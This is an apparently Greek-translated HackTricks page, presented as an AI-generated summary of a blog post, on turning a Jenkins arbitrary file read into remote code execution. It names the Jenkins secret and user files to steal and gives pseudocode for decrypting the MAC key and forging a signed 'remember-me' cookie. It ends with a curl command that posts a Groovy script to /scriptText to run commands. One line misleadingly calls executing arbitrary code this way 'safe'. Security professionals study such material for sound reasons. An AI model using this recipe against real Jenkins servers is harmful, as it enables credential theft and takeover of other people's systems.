 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Σε αυτή την ανάρτηση του blog είναι δυνατή η εύρεση ενός εξαιρετικού τρόπου για να μετατραπεί μια ευπάθεια Local File Inclusion στο Jenkins σε RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Αυτή είναι μια περίληψη που δημιουργήθηκε από AI του μέρους της ανάρτησης όπου η δημιουργία ενός αυθαίρετου cookie κακοποιείται για να αποκτήσει RCE εκμεταλλευόμενη μια τοπική ανάγνωση αρχείου μέχρι να έχω χρόνο να δημιουργήσω μια περίληψη μόνος μου:

### Attack Prerequisites

* **Feature Requirement:** "Remember me" πρέπει να είναι ενεργοποιημένο (προεπιλεγμένη ρύθμιση).
* **Access Levels:** Ο επιτιθέμενος χρειάζεται δικαιώματα Overall/Read.
* **Secret Access:** Δυνατότητα ανάγνωσης τόσο δυαδικού όσο και κειμενικού περιεχομένου από βασικά αρχεία.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

* Πρόσβαση στη διαμόρφωση χρηστών και μυστικά από το `$JENKINS_HOME/users/*.xml` για κάθε χρήστη για να συγκεντρωθούν:
* **Username**
* **User seed**
* **Timestamp**
* **Password hash**

**Secret Key Extraction**

* Εξαγωγή κρυπτογραφικών κλειδιών που χρησιμοποιούνται για την υπογραφή του cookie:
* **Secret Key:** `$JENKINS_HOME/secret.key`
* **Master Key:** `$JENKINS_HOME/secrets/master.key`
* **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

*   **Calculate Token Expiry Time:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Προσθέτει μία ώρα στην τρέχουσα ώρα
```
{% endcode %}
*   **Concatenate Data for Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC Key Decryption**

*   **Decrypt MAC Key File:**

```javascript
key = toAes128Key(masterKey)  // Μετατροπή του master key σε μορφή κλειδιού AES128
decrypted = AES.decrypt(macFile, key)  // Αποκρυπτογράφηση του αρχείου .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signature Computation**

*   **Compute HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Υπολογισμός HMAC χρησιμοποιώντας το token και το MAC key
tokenSignature = bytesToHexString(mac)  // Μετατροπή του MAC σε δεκαεξαδική συμβολοσειρά
```

**Cookie Encoding**

*   **Generate Final Cookie:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Κωδικοποίηση Base64 των δεδομένων cookie
```
{% endcode %}

#### Step 3: Code Execution

**Session Authentication**

* **Fetch CSRF and Session Tokens:**
* Κάντε ένα αίτημα στο `/crumbIssuer/api/json` για να αποκτήσετε το `Jenkins-Crumb`.
* Συλλέξτε το `JSESSIONID` από την απάντηση, το οποίο θα χρησιμοποιηθεί σε συνδυασμό με το cookie "remember-me".

**Command Execution Request**

*   **Send a POST Request with Groovy Script:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Το Groovy script μπορεί να χρησιμοποιηθεί για την εκτέλεση εντολών σε επίπεδο συστήματος ή άλλων λειτουργιών μέσα στο περιβάλλον Jenkins.

Η παραδείγματος curl εντολή που παρέχεται δείχνει πώς να κάνετε ένα αίτημα στο Jenkins με τις απαραίτητες κεφαλίδες και cookies για να εκτελέσετε αυθαίρετο κώδικα με ασφάλεια.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
